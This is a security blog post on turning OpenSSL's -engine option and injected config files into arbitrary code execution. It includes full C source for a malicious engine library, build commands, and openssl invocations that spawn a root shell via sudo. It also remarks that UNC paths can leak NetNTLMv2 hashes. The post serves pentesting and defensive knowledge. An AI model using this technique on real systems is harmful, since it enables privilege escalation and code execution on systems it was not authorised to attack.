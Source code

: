 ```yaml
---
layout: post
title: OpenSSL Arg Injection 
permalink: /posts/openssl-arginjection
redirect_from:
  - /openssl-arginjection/
---
```


This is a short little post detailing how to get OpenSSL to run arbitrary code through the use of the `-engine` option. As detailed in the docs, an OpenSSL engine is a new component "to support alternative cryptography implementations, most commonly for interfacing with external crypto devices".  These engines consist of compiled code which is loaded by OpenSSL, and can be used to run arbitrary code. 

This is useful in situations such as if you have the ability to pass arguments (like in an argument injection vulnerability) to OpenSSL, or can alter a configuration file used to generate certificates. If you have sudo access to OpenSSL, you can easily elevate to full root. Exploiting this does however require placing the malicious engine file somewhere on the disk of the target file system. 

On Windows (using a commonly distributed OpenSSL windows binary) it appears you can also use UNC paths for the engine DLLs, which also has the convenient effect of disclosing NetNTLMv2 hashes should you wish them. However, if you're at this point, you should be able to get command execution using a malicious engine.

I've found multiple applications that allow argument injection into OpenSSL, and using this argument injection has enabled me to turn that into code execution.

## Details

For demonstration purposes, I have a system running Debian 10 with OpenSSL installed and the `libssl-dev` package. Create a file "engine.c", with the following contents:

```
#include <stdio.h>
#include <openssl/engine.h>

static const char *engine_id = "malengine";
static const char *engine_name = "Engine for executing arbitrary code";

static int bind(ENGINE *e, const char *id){
    int ret = 0;
    int status = system("/bin/bash -c 'echo \"arbitrary code\"'");
    if(!ENGINE_set_id(e,engine_id)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    if(!ENGINE_set_name(e,engine_name)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    ret = 1;
    end:
        return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
This file is mostly sourced from [this OpenSSL blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/).

**Update:** I submitted [a PR to GTFOBins and a maintainer replied with a much simpler engine file](https://github.com/GTFOBins/GTFOBins.github.io/pull/125):

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", "-c","echo 'arbitrary code'");
}
```


Compile it using the following gcc command, which will create the `engine.so` shared library. The engine file does not need to end in .so. This is very convenient as if you have a a web application that only allows whitelisted extensions for files written to disk you can get an engine file on there. 

`gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o`

and then use the following OpenSSL command:
`openssl req -engine ~/engine.so`

which will output the following:
```
user@debian10:~$ openssl req -engine ~/engine.so
arbitrary code
engine "rce" set.
```

If you can run openSSL with sudo, you can spawn a bash shell:

`int status = system("/bin/bash");`

```
user@debian10:~$ sudo openssl req -engine ~/engine.so
root@debian10:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian10:/home/user# 
```

Several other OpenSSL commands seem to support the engine parameter, such as  
```
openssl rsa -engine ~/engine.so
openssl s_client -engine ~/engine.so
openssl x509 -engine ~/engine.so
```

and probably some more, just check the man page. 

Exploiting these in argument injection vulnerabilities isn't always trivial as just injecting the engine parameter, as depending on the position of the injected argument you may also need to have a valid set of OpenSSL arguments. Interestingly enough the engine seems to be loaded even if the other Openssl args are invalid, as long as the engine argument preceeds the invalid argument. So we see:

```
user@debian10:~$ openssl req INVALID -engine ~/engine.so
req: Use -help for summary.
user@debian10:~$  

```
doesn't work, however the following does:
```
user@debian10:~$ openssl req -engine ~/engine.so INVALID
arbitrary code
engine "rce" set.
req: Use -help for summary.
user@debian10:~$ 
```

If you can write multiple lines into an OpenSSL config file somehow (%0a perhaps...), you can probably get an engine reference in there. Create a config file like:

```
[default]
openssl_conf = openssl_init

[openssl_init]
engines = engine_section

[engine_section]
foo = foo_section

[foo_section]
dynamic_path = /home/user/engine.so
init = 1

```

then when this is used by OpenSSL:
```
user@debian10:~$ openssl req -new -config test.cnf
arbitrary code
Generating a RSA private key
..........................+++++
............................+++++
writing new private key to stdout
```

One of the major downsides with malicious engines like this is that they are not particularly portable. If your target system is running an older or newer version of OpenSSL your generated engine may not work. You'll need to set up an environment that matches the target system to compile the engine, or do it on the target system if possible. There may be a way to generate more portable versions of these engines that work with multiple versions of OpenSSL.

Also, it probably doesn't need saying but *this is not a vulnerability in OpenSSL*.

